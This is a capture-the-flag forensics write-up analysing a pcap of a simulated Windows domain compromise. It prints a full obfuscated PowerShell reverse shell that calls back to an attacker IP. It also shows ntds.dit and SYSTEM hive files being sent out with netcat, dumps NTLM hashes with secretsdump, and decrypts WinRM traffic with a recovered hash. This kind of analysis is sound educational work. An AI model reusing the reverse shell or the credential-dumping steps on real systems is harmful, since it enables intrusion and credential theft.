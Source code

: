 # Keep the Steam Activated

The description for this challenge is as follows:

*The network in which our main source of steam is connected to, got compromised. If they managed to gain full control of this network, it would be a disaster!*

The challenge was rated at 3 out of 4 stars, and it was worth 450 points at the end with a total of 14 solves.The downloadables for this challenge included a single pcap file. This was a reasonably difficult forensics challenge that included skills like pcap analysis, obfuscated powershell script analysis, and decoding encrypted protocols using scripts.

**TL;DR Solution:** Extract ntd.dit and SYSTEM hive files from the pcap based on information derived from an obfuscated powershell script. Extract NTLM hashes from those files, and use them to decrypt WinRM traffic. Then find the flag encoded in base64.


## Extracting NTLM Hashes

Firstly, one good initial step when dealing with pcap files is to check if any files were transferred over HTTP, since Wireshark provides an easy option for the extraction of such files. Simply go to File > Export Objects > HTTP. The files that seemed especially relevant here were called rev.ps1, n.exe, and drop.ps1. As a result, I saved all of them for further analysis.

![wireshark_file_extraction](wireshark_file_extraction.png)

The rev.ps1 file was relatively obfuscated, as shown below. However, one piece of obfuscated text that stands out is "(("{0}{1}{2}" -f '192.168','.1','.9'),4443)". This appears to be targetting the attacker machine's IP address of 192.168.1.9, on what we can assume is port 4443.
```
sv ('8mxc'+'p')  ([tyPe]("{1}{0}{2}" -f 't.encOdi','tex','nG') ) ;${ClI`E`Nt} = &("{1}{0}{2}"-f 'je','New-Ob','ct') ("{5}{0}{8}{1}{2}{3}{4}{6}{7}" -f'y','m','.Net.So','ckets.T','C','S','PC','lient','ste')(("{0}{1}{2}" -f '192.168','.1','.9'),4443);${sT`Re`Am} = ${C`L`IeNT}.("{0}{2}{1}"-f'Ge','tream','tS').Invoke();[byte[]]${By`T`es} = 0..65535|.('%'){0};while((${i} = ${str`EaM}.("{0}{1}" -f'Re','ad').Invoke(${bY`Tes}, 0, ${by`TEs}."Len`G`TH")) -ne 0){;${d`AtA} = (.("{2}{1}{0}"-f '-Object','w','Ne') -TypeName ("{0}{3}{5}{1}{4}{2}" -f'Syst','ASCI','g','em.Text','IEncodin','.'))."gETSt`R`i`Ng"(${by`TES},0, ${i});${SeN`DBacK} = (.("{0}{1}"-f 'ie','x') ${Da`Ta} 2>&1 | &("{0}{2}{1}"-f'Out-','ing','Str') );${SENdb`AC`k2} = ${s`eNDb`ACK} + "PS " + (.("{1}{0}"-f'd','pw'))."P`ATH" + "> ";${sE`NDBYtE} = (  (  vaRIaBle ('8MXC'+'P')  -ValUe  )::"ASC`Ii").("{2}{1}{0}"-f'es','tByt','Ge').Invoke(${SENdB`AC`K2});${sT`REAM}.("{0}{1}" -f'Writ','e').Invoke(${S`e`NdbY`Te},0,${SE`NDbyTe}."lENG`TH");${S`TR`eAM}.("{1}{0}" -f 'h','Flus').Invoke()};${clIE`Nt}.("{0}{1}"-f 'Cl','ose').Invoke()
```
If I use the filter "tcp.port == 4443" in Wireshark, I can see that there is a lot of TCP traffic here. If I right-click one of these packets and select Follow > TCP stream, I can view a plaintext representation of the conversation that occurred over these packets. Of particular interest is the fact that the files ntds.dit and the SYSTEM hive seem to have been encoded in base 64, then transferred back to the attacker machine using port 8080 with the n.exe file. As a side-note, I determined that n.exe seems to be a version of netcat by simply uploading it to VirusTotal.

![system_ntds_transfer_conversation](system_ntds_transfer_conversation.png)

Now I can use the filter "tcp.port == 8080" and follow the conversations again like described above. There are two separate conversations, both of which seem to be base64 strings with "-----BEGIN CERTIFICATE-----" at the top and "-----END CERTIFICATE-----" at the end. 

![ntds_b64encoded](ntds_b64encoded.png)

I decoded both files by using the base64 utility in the Linux command line. The workflow here is to use the "Save as" option at the bottom of the followed TCP window to save a text file version of each stream, open the files up in a text editor to cut of the plaintext certificate lines, then run them through the base64 utility while piping the outputs to appropriately named files. Now I just need to figure out where to go from here.
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode ntds_b64_stream > ntds.dit
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode system_b64_stream > system.hive
```
## Deriving NTLM Hashes

Obviously, there is a lot of information in both the ntds.dit and SYSTEM hive files, so I decided to focus on what I could derive if given both simultanoeously. After a bit of research, I found that it is a reasonably common strategy to rip these files from a system in order to extract NTLM hashes for Domain users. Impacket has a script that can automatically extract these hashes called secretsdump.py; my Kali Linux machine seems to have the script already, but you could also download it from the github at https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py. The actual command to dump the hashes is relatively straightforward, as is the process of parsing the results:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x406124541b22fb571fb552e27e956557
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9da98598be012bc4a476100a50a63409
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8bb1f8635e5708eb95aedf142054fc95:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CORP-DC$:1000:aad3b435b51404eeaad3b435b51404ee:94d5e7460c75a0b30d85744f633a0e66:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9555398600e2b2edf220d06a7c564e6f:::
CORP.local\fcastle:1103:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
CORP.local\jdoe:1104:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
WS01$:1105:aad3b435b51404eeaad3b435b51404ee:cd9c49cc4a1a535d27b64ab23d58f3e6:::
WS02$:1106:aad3b435b51404eeaad3b435b51404ee:98c3974cacc09721a351361504de4de5:::
CORP.local\asmith:1109:aad3b435b51404eeaad3b435b51404ee:acbfc03df96e93cf7294a01a6abbda33:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6e5d1ccb7642b4bf855975702699f733034916dbd04bf4acddc36ac273b3f578
Administrator:aes128-cts-hmac-sha1-96:8d5709c4a7cab2e0f5fbb4a069b283fb
Administrator:des-cbc-md5:e302c7793b58ae97
CORP-DC$:aes256-cts-hmac-sha1-96:9c888129432a87257f81f6bb6affd91bc3b0ba9cf20e94ef9216364d79aab5bd
CORP-DC$:aes128-cts-hmac-sha1-96:0ac3c714050469724e5c41d21f7f86d3
CORP-DC$:des-cbc-md5:57497ce6972613da
krbtgt:aes256-cts-hmac-sha1-96:85c670ece27dad635c28630454154bb325b644b8f61d44f802b80c39277f529e
krbtgt:aes128-cts-hmac-sha1-96:15bfbb6b827c1904e49d77bf7624c2f4
krbtgt:des-cbc-md5:a2074373b920515d
CORP.local\fcastle:aes256-cts-hmac-sha1-96:c6319d38d781e145161c4b1a4ef11d08ad9be36c43b173b355f78c2cf2edf15a
CORP.local\fcastle:aes128-cts-hmac-sha1-96:144565c25d70678535b2908983d74f6e
CORP.local\fcastle:des-cbc-md5:6b0b2f01a731a78f
CORP.local\jdoe:aes256-cts-hmac-sha1-96:9d74074381d0000525c1cfbb24c2943e28bf415b89c8cf958eae5add39614ac8
CORP.local\jdoe:aes128-cts-hmac-sha1-96:7e0fb5fa7dcfa50ea0a8a55e08b63f74
CORP.local\jdoe:des-cbc-md5:610e67019e9b68ab
WS01$:aes256-cts-hmac-sha1-96:ccc215ff3ac06dc3e206f6e55cd1512f3bb00311d02c77591f3cb08e01d5a40f
WS01$:aes128-cts-hmac-sha1-96:5e94401d7da953a13d42809340ff6ec3
WS01$:des-cbc-md5:9885ea642f268ab3
WS02$:aes256-cts-hmac-sha1-96:dc3f081be6c29532904a073124a0998d857667cc5c531fcbe0f6d3e46d40eac2
WS02$:aes128-cts-hmac-sha1-96:7e494ea36b4fb80670f807a8c72e7b3d
WS02$:des-cbc-md5:b58a08dc9eabbc0d
CORP.local\asmith:aes256-cts-hmac-sha1-96:57e22c0b740ed35935f82a6e34ab84a683437105a4ab2f1f3ba70962d5c53112
CORP.local\asmith:aes128-cts-hmac-sha1-96:392a638579d925cca9e4ef7965b9dcdd
CORP.local\asmith:des-cbc-md5:839bd6e9380e40f7
[*] Cleaning up... 
```
By googling the NT hashes, I was able to determine that asmith's plaintext password was Summer2020, but I have not determined the passwords for the other users.

### SMB Decryption Rabbit Hole

I spent several hours attempted to decrypt the encrypted SMB3 traffic at the beginning of the capture. I will not go into much detail about that here, but if anyone is interested, this writeup provides the best description of how to decrypt this traffic, and I used it extensively in these attempts: https://medium.com/maverislabs/decrypting-smb3-traffic-with-just-a-pcap-absolutely-maybe-712ed23ff6a2

## Decrypting the Winrm Traffic

When you view the traffic immediately after the bas64 encoded SYSTEM hive has finished transmitting over port 8080, you can see encrypted winrm traffic that can hopefully be decrypted to view the flag.

![winrm_traffic](winrm_traffic.png)

I was able to find a script online that can purportedly decrypt winrm traffic if given the NT  hash of the password, which seems perfect given what we have. However, when I attempted to run it, it failed. Ultimately, the issue seems to have come down to a failure to properly parse the pcap capture data as bytes. A team member made adjustments on line 208, where "include_raw=True, use_json=True" was added, and line 248, where "file_data = cap.http.file_data.binary_value" was changed to "file_data = cap.http.file_data_raw[0].binary_value". The output was very long, and it started like this: 
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ python3 winrm_decoder_edited.py -n 8bb1f8635e5708eb95aedf142054fc95 capture.pcap 
No: 21358 | Time: 2021-11-05T07:04:51.144128 | Source: 192.168.1.9 | Destination: 192.168.1.10
<?xml version="1.0" ?>
<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:env="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:b="http://schemas.dmtf.org/wbem/wsman/1/cimbinding.xsd" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:x="http://schemas.xmlsoap.org/ws/2004/09/transfer" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:cfg="http://schemas.microsoft.com/wbem/wsman/1/config">
	<env:Header>

```
I ended up piping this output to a "winrm_decoded.txt" file and grepping for flag-like results. At an initial glance, I noticed that there seemed to be a lot of powershell commands obfuscated with base64 that could contain a plaintext flag. Base64 encoding depends on offset, so as a I was attempting to grep for the flag, I tried encoding aHTB{ and got YUhUQns=. The first two characters seem dependant on the a, so if I just grep for some of the middle characters, I get:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ cat winrm_decoded.txt | grep hUQn
			<rsp:Stream Name="stdout" CommandId="8937D38B-70EB-44FB-84C5-DB5752DA7E67">AAAAAAAAABoAAAAAAAAAAAMAAABeAQAAAAQQBACzrAetdF3OT7duxmQ4O6Yxi9M3ietw+0SExdtXUtp+Z++7vzxTPkhUQntuMHRoMW5nXzFzX3RydTNfM3Yzcnl0aDFuZ18xc19kM2NyeXB0M2R9PC9TPg==</rsp:Stream>
```
If I then go ahead and decode this base64 string, I get:
```
....................^........³¬..t]ÎO·nÆd8;¦1.Ó7.ëpûD.ÅÛWRÚ~gï»¿<S>HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}</S>
```
Thanks for reading!
